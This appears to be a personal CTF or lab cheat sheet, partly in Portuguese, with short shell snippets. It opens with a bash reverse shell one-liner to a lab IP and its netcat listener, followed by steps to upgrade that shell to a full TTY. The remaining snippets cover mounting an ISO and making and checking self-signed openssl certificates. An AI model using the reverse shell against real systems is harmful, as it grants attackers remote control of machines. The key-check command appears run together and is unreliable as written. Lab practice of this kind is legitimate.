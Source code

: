 #### Basic rev shell
```bash
# On guest
$ bash -c 'bash -i >& /dev/tcp/10.10.14.6/4545 0>&1'

# On host
nc -nv 10.10.14.6 4545
```
#### Upgrade a rev shell
```sh
$ python -c 'import pty; pty.spawn("/bin/bash")'
^Z

$ stty raw -echo; fg
$ stty rows 50 columns 200
$ export TERM=linux
$ exec /bin/bash
```
#### Mount a image on Linux
```sh
$ sudo mkdir /mnt/mountpoint
$ sudo mount -o loop ./chal_tiny_usb.iso /mnt/mountpoint
```
#### Certificado auto assinado
```sh
$ vim /etc/ssl/openssl.cnf
[ wsc.local ]
subjectAltName = DNS:www.wsc.local

$ openssl genrsa -aes128 2048 > server.key 
$ openssl rsa -in server.key -out server.key 

# Removendo a senha da chave
$ openssl rsa -in server.key -out server.key

# Criando a requisição(CSR)
$ openssl req -utf8 -new -key server.key -out server.csr

# Assinando o certificado
$ openssl x509 -in server.csr -out server.crt -req -signkey server.key -extfile /etc/ssl/openssl.cnf -extensions srv.world -days 3650
```
#### Testa se uma chave pertence ao certificado
```sh
$ openssl x509 -noout -modulus -in /etc/ssl/ldap/ldap.crt | openssl md5 openssl rsa -noout -modulus -in /etc/ssl/ldap/ldap.key | openssl md5
```




openssl s_client -showcerts -connect 10.0.10.10:443










